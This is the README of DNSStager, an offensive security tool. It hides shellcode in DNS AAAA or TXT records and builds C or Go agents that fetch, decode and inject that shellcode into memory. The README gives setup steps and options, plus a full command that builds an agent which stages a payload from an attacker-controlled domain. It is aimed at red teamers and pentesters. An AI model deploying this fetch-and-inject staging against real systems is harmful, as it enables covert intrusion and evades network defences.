


# What is DNSStager? 

DNSStager is an open-source project based on Python used to hide and transfer your payload using DNS.

DNSStager will create a malicious DNS server that handles DNS requests to your domain and return your payload as a response to specific record requests such as `AAAA` or `TXT` records after splitting it into chunks and encoding the payload using different algorithms.

DNSStager can generate a custom agent written in `C` or `GoLang` that will resolve a sequence of domains, retrieve the payload, decode it and finally inject it into the memory based on any technique you want.

You can edit the code of DNSStager agent as you wish, and build it using your own custom execution techniques.

The main goal of using DNSStager is to help red teamers/pentesters to deliver their payloads in stealthy channel using DNS.


# How does it work?

Based on your DNS resolution option, DNSStager will split your payload into chunks and save each chunk of the payload as a response for a subdomain.

For example, if you choose `IPV6` as your option to retrieve the payload, the DNS response will be something like:

`cloud-srv-1.test.mydnsserver.live. 300 IN AAAA	5648:31d2:6548:8b52:6048:8b52:1848:8b52`

Where `5648:31d2:6548:8b52:6048:8b52:1848:8b52` is a part of your payload.

So, the agent will resolve some domains to retrieve the payload and then decode it and finally inject it into memory.

Currently, DNSStager only supports two records, `AAAA` and `TXT`. You can encode your payload using XOR for the `AAAA` record and by default it will be encoded as base64 if you choose `TXT` record.

# DNSStager key features:

DNSStager has some key features such as:

* Hide and Resolve your payload in `IPV6` records.
* Hide and Resolve your payload in `TXT` records.
* XOR encoder to encode your payload.
* Base64 encoder to encode your payload (only for TXT records).
* Pure agent written in `C` with the ability to customise it.
* Pure agent written in `GoLang` with the ability to customise it.
* The ability to use sleep between each DNS request.
* AND MUCH MORE TO COME!

# Requirements

You can install DNSStager python requirements via:

`pip3 install -r requirements.txt`

You need to install `GoLang` version `1.16.3` and to make sure to install the following `GoLang` packages:

* golang.org/x/sys
* github.com/miekg/dns

Also, make sure to install `ming-w64` via:

`apt install mingw-w64`

The script `setup.sh` should do that for you, but double check the requirements before you use it!

# Installation

To get the latest version of DNSStager, make sure to clone it from this repo using the following command:

`git clone https://github.com/mhaskar/DNSStager`

Then you need to install the requirements using the following command:

`pip3 install -r requirements.txt`

And make sure to install all the previously mentioned requirements too.

After doing all that, you are ready to execute DNSStager **as root** to get the following:

```
┌─[askar@hackbook]─[/opt/redteaming/DNSStager]
└──╼ $sudo ./dnsstager.py


██████╗░███╗░░██╗░██████╗░██████╗████████╗░█████╗░░██████╗░███████╗██████╗░
██╔══██╗████╗░██║██╔════╝██╔════╝╚══██╔══╝██╔══██╗██╔════╝░██╔════╝██╔══██╗
██║░░██║██╔██╗██║╚█████╗░╚█████╗░░░░██║░░░███████║██║░░██╗░█████╗░░██████╔╝
██║░░██║██║╚████║░╚═══██╗░╚═══██╗░░░██║░░░██╔══██║██║░░╚██╗██╔══╝░░██╔══██╗
██████╔╝██║░╚███║██████╔╝██████╔╝░░░██║░░░██║░░██║╚██████╔╝███████╗██║░░██║
╚═════╝░╚═╝░░╚══╝╚═════╝░╚═════╝░░░░╚═╝░░░╚═╝░░╚═╝░╚═════╝░╚══════╝╚═╝░░╚═╝    

    Beta Version                           Hide your payload in DNS

[-] Please specify a domain name using --domain
```
# Usage

To start using DNSStager, make sure to setup your DNS settings first, you need to make your domain points to the DNSStager instance as `NS record` in order to handle all the DNS requests to your domain.

You can read this full article about how to setup and use DNSStager.

And you can check the options using `-h` switch like the following:

```
┌─[askar@hackbook]─[/opt/redteaming/DNSStager]
└──╼ $sudo ./dnsstager.py -h
usage: dnsstager.py [-h] [--domain DOMAIN] [--payloads] [--prefix PREFIX]
                    [--payload PAYLOAD] [--output OUTPUT]
                    [--shellcode_path SHELLCODE_PATH] [--xorkey XORKEY]
                    [--sleep SLEEP]

DNSStager main parser

optional arguments:
  -h, --help            show this help message and exit
  --domain DOMAIN       The domain you want to use as staging host
  --payloads            show all payloads
  --prefix PREFIX       Prefix to use as part of your subdomain schema
  --payload PAYLOAD     Payload to use, see --payloads for more details
  --output OUTPUT       Agent output path
  --shellcode_path SHELLCODE_PATH
                        Shellcode file path
  --xorkey XORKEY       XOR key to encode your payload with
  --sleep SLEEP         sleep for N seconds between each DNS request

```

* --domain: you can use this option to select the main domain you will use to handle the DNS requests for.

* -- prefix: The prefix you want to use for the subdomain schema
For example, if your main domain is `fakedns.live` you can specify the prefix as "cdn" for example, So the generate domains will be a a pattern as the following:

  * `cdn0.fakedns.live`
  * `cdn1.fakedns.live`
  * `cdnN.fakedns.live`

Where `N` is auto generated number represent the number of chunks of your payload.

* --payload: the DNSStager payload "agent" you want to generate based on the technique, programming language and architecture.

* --output: Output path to save DNSStager executable payload "agent".

* --shellcode_path: Your `raw`/`bin` shellcode path.

* --xorkey: XOR key to encode the payload with.

* --sleep: Used to sleep for N seconds between each DNS request.

## DNSStager Payloads

To check the available DNSStager payloads, you can use `./dnsstager.py --payloads` to get the following results:

```
┌─[askar@hackbook]─[/opt/redteaming/DNSStager]
└──╼ $sudo ./dnsstager.py --payloads

[+] 6 DNSStager payloads Available

x64/c/ipv6			Resolve your payload as IPV6 addresses xored with custom key via compiled x64 C code
x86/c/ipv6			Resolve your payload as IPV6 addresses xored with custom key via compiled x86 C code
x64/golang/txt			Resolve your payload as TXT records encoded using base64 compiled x64 GoLang code
x64/golang/ipv6			Resolve your payload as IPV6 addresses encoded with custom key using byte add encoding via compiled x64 GoLang code
x86/golang/txt			Resolve your payload as TXT records encoded using base64 compiled x86 GoLang code
x86/golang/ipv6			Resolve your payload as IPV6 addresses encoded with custom key using byte add encoding via compiled x86 GoLang code
```
## Example of using DNSStager with IPV6

This example will start DNSStager to resolve your payload as `IPV6` using the domain `test.mydnsserver.live` with prefix `cloud-srv-` to generate compiled `x64 C` agent encoded with 0x10 as key:

`sudo ./dnsstager.py --domain test.mydnsserver.live --payload x64/c/ipv6 --output /tmp/a2.exe --prefix cloud-srv- --shellcode_path ~/payload.bin --sleep 1 --xorkey 0x10
`  

And the output will be:



And to check if everything is working well, lets send DNS query to `cloud-srv-0.test.mydnsserver.live` to get the following:



We can see that we received `f642:89ee:fae2:c20a:a0a:4b5b:4b5a:585b` as response which is the first 16 bytes of our encoded payload.

And the agent `/tmp/a2.exe` will do the work for you when you execute it on the target machine.

# License

This project is licensed under the GPL-3.0 License - see the LICENSE file for details
